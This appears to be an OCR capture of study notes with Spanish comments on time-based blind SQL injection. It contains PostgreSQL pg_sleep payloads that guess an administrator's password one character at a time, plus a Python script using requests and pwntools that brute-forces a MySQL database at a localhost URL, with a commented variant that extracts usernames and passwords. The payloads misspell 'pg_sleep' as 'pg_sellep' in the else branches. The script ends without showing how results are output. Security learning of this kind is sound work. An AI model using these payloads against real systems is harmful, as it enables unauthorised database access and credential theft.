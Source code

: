 ```bash 
# Obtener informacion con una SQL Time en PostgreSQL

# Si el usuario se llama 'administrator' esperara 5 seg, de lo contrario no esperara nada 
❯ ' ;select case when (username='administrator') then pg_sleep(5) else pg_sellep(0) end from users-- - 


# Para extraer la longitud de la password, como si es verdad se tardara los 5 seg, de lo contrario no se tardara nada y es ahi cuando sabremos la longitud de la password
❯ ' ;select case when (username='administrator' and length(password)>1) then pg_sleep(5) else pg_sellep(0) end from users-- - 


# Obtener la password del usuario administrator, si la primer letra de la password es igual a 'a' tardara 5seg, de lo contrario no tardara nada 
❯ ' ;select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(5) else pg_sellep(0) end from users-- -
```

```python 
# Para la base de datos MySQL

#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def MakeSQLI():
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Datos extraidos")
    extrated_info = ""

    for position in range(1, 150):
        for character in range(33, 126): # El 1 de abajo es un valor que si existe
            sqli_url = main_url + "?id=1 and if(ascii(substr(database(),%d,1))=%d,sleep(0.35),1)" % (position, character)
           #sqli_url = main_url + "?id=1 and if(ascii(substr((select group_concat(username,0x3a,password) from users),%d,1))=%d,sleep(0.35),1)" % (position, character)
            p1.status(sqli_url)
            time_start = time.time()
            r = requests.get(sqli_url)
            time_end = time.time()
            if time_end - time_start > 0.35:
                extrated_info += chr(character)
                p2.status(extrated_info)
                break

```